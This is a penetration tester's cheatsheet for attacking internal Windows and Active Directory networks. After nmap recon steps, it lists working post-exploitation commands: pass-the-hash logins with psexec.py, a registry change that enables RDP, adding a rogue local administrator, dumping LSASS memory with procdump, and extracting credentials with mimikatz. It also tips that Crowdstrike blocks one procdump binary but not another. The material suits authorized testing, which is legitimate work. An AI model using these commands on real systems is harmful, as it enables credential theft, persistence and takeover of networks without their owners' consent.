 # Internal Pentest Cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn \
-iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | \
grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms \ 
--max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit
6) If user account is provided, use bloodhound or AD-Recon.ps1 to enumerate all of AD.
  Feed AD-Recon's Computers.csv into [fruityad.py](https://github.com/smit1759/cheetsheets/blob/master/fruityad.py) - it'll show you what you can pwn easily.
7) Profit

## Exploitation
1) Stop, think, am I going to break shit?
2) RECORD EVERY STEP
3) Verify your exploit will work
4) Clean up after yourself

## Post-Exploitation
1) Open RDP (Makes other exploits easier to run) - Use the Remmina client on Kali
2) Procdump lsass.exe (or import kiwi/mimikatz on MSF) for creds\
3) Investigate host
4) Check if its a constrained delegation host
5) Pray you've dumped DA's creds

## Useful shit

#### Use eternalblue_psexec - the others hardly work

### Dont always have to crack the hash, maybe pass it??
```
psexec.py -hashes LM:NTLM DOMAIN/User@IP
smbclient.py -hashes LM:NTLM DOMAIN/User@IP
```
MSF Allows you to use the NTLM hash in the password field in exploit/windows/smb_psexec
Don't forget that native upload (Target 3) works if powershell is disabled on the box

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool.
(Crowdstrike doesnt block procdump.exe but blocks procdump64.exe no idea why)
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
